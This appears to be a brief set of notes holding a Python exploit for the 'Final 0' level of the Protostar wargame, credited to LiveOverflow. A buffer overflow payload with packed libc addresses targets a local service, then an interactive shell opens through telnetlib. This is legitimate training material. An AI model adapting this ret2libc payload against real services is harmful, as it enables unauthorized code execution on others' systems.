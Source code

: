 ```python
import struct
import socket
import telnetlib
```

# [LiveOverflow](https://www.youtube.com/watch?v=HAN8Qun26cQ)
### __Final 0__

```bah
HOST = '127.0.0.1'
PORT = 2995
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
```
...

```bash
padding = "a"*510+"\x00"+"aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 1176511 + 0xb7e97000)
exploit = padding + execve + "AAAA" + binsh + "\x00"*8
```
...

```bash
s.send(exploit+"\n")
s.send("id\n")
print s.recv(1024)
```
...

```bash
t = telnetlib.Telnet()
t.sock = s
t.interact()
```




